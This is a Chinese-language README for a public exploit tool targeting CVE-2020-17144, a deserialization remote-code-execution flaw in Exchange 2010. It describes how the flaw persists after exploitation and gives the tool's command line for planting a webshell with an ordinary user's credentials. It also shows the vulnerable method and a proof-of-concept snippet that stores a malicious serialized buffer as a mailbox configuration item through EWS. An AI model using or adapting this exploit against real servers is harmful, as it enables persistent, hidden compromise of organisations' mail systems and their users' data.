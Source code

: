 # CVE-2020-17144 Exchange2010 反序列化RCE

和CVE-2018-8302、CVE-2020-0688类似，CVE-2020-17144同属需登录后利用的反序列化漏洞，但仅影响Exchange2010服务器。

与CVE-2020-0688不同，由于漏洞本身有趣的成因和触发条件，在利用时无需明文密码，只要具备NTHash即可成功，在利用方式上会相对更加灵活。同时，存在漏洞的功能点本身具备持久化功能，利用成功后将直接进行持久化行为，在不修复漏洞的情况下将永远存在，其危害性和隐蔽性远大于CVE-2020-0688


```
internal bool LoadModel(out LearningModel learningModel, out MessageTransformer messageTransformer, bool parseFai)
{
    ...
    return DeserializeModelFAI(userConfiguration, out learningModel, out messageTransformer);
    ...
}
```

DeserializeModelFAI 直接将用户可空的个人配置作为参数传入造成RCE

**CVE-2020-17144-EXP**


```
条件: Exchange2010; 普通用户
默认用法(写webshell): CVE-2020-17144-EXP.exe mail.example.com user pass

执行命令 & 端口复用: 修改ExploitClass.cs
```

参考 @zcgonvh

```
https://mp.weixin.qq.com/s?__biz=MzI2NDk0MTM5MQ==&mid=2247483712&idx=1&sn=0b2cc3c9692f5c58a4eeb246d4b392fc&chksm=eaa5bb60ddd23276baf4cfd3fc59ca847c28f350c65ef98a17d49bc9944d653fad95dec4fd14&mpshare=1&scene=1&srcid=1209jtbQLVJIgr3VT0Ut1TM9&sharer_sharetime=1607483575995&sharer_shareid=dc9cecc79ba34e4bbb700a43a16153fd#rd
```


```
ExchangeService service = new ExchangeService(ExchangeVersion.Exchange2010);
service.Credentials = new WebCredentials("zcgonvh","P@ssw0rd!");
service.Url = new Uri("https://target/ews/Exchange.asmx");
{
byte[] data = EVIL-SERIALIZED-BUFFER;
  UserConfiguration u = null;
  Folder folder = Folder.Bind(service, WellKnownFolderName.Inbox);
  u = new UserConfiguration(service);
  u.BinaryData = data;
  u.Save("MRM.AutoTag.Model", folder.Id);
}
```

ref:

https://github.com/Airboi/CVE-2020-17144-EXP

https://mp.weixin.qq.com/s/nVtE-OFoO076x6T0147AMw

陈师傅